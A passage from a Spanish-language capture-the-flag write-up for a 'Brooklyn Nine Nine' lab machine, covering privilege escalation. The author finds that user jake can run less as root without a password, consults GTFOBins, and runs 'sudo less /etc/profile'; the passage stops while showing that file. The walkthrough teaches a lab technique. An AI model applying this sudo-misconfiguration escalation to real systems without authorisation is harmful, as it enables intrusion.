Tenemos la primer flag. Vamos a por root.

## Escalado de privilegios

Lo primero es chequear los binarios que *jake* puede ejecutar con privilegios de root.

```console
[...]
jake@brookly_nine_nine:/home/holt$ sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
jake@brookly_nine_nine:/home/holt$
```

Bien, podemos ejecutar el binario *less* con *sudo* sin siquiera teclear nuestra contraseña.

Nos vamos a [GTFOBins](https://gtfobins.github.io/), buscamos por *less* y le damos a la cajita que pone *sudo*.

![](/assets/posts/20220810/img18.png)

OK. Toca probar.

```console
[...]
jake@brookly_nine_nine:/home/holt$ sudo less /etc/profile

# /etc/profile: system-wide .profile file for the Bourne shell (sh(1))
# and Bourne compatible shells (bash(1), ksh(1), ash(1), ...).

if [ "${PS1-}" ]; then
  if [ "${BASH-}" ] && [ "$BASH" != "/bin/sh" ]; then
    # The file bash.bashrc already sets the default PS1.
    # PS1='\h:\w\$ '
    if [ -f /etc/bash.bashrc ]; then
      . /etc/bash.bashrc
    fi
  else
    if [ "`id -u`" -eq 0 ]; then
      PS1='# '
    else
      PS1='$ '
    fi
  fi
fi

if [ -d /etc/profile.d ]; then
  for i in /etc/profile.d/*.sh; do
    if [ -r $i ]; then
      . $i
    fi
  done
  unset i
```